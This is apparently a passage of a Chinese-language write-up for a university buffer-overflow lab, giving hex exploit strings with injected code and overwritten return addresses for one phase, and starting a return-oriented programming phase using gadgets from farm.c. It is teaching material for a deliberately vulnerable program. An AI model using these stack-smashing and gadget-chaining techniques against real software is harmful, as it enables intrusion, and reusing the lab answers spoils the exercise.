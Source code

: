 调整后字符串地址为0x55684728 ， 所以pop取出的地址也为0x55684728（字符串地址）
**答案：**
```txt
5f c3 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
e8 46 68 55 00 00 00 00
28 47 68 55 00 00 00 00
8e 19 40 00 00 00 00 00
34 66 38 64 36 32 33 34
```

注入代码也可以是:
```txt

inject_code2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf 20 47 68 55       	mov    $0x55684720,%edi
   5:	c3                   	retq   
```
**答案2：**
```txt
bf 20 47 68 55 c3 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
e8 46 68 55 00 00 00 00
8e 19 40 00 00 00 00 00
34 66 38 64 36 32 33 34
```


### phase4 
注入代码(每行在后面加个ret (c3)):
```c
inject_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	58                   	pop    %rax
   1:	89 c7                	mov    %eax,%edi
```

在farm.c的反汇编代码里里面找得到：
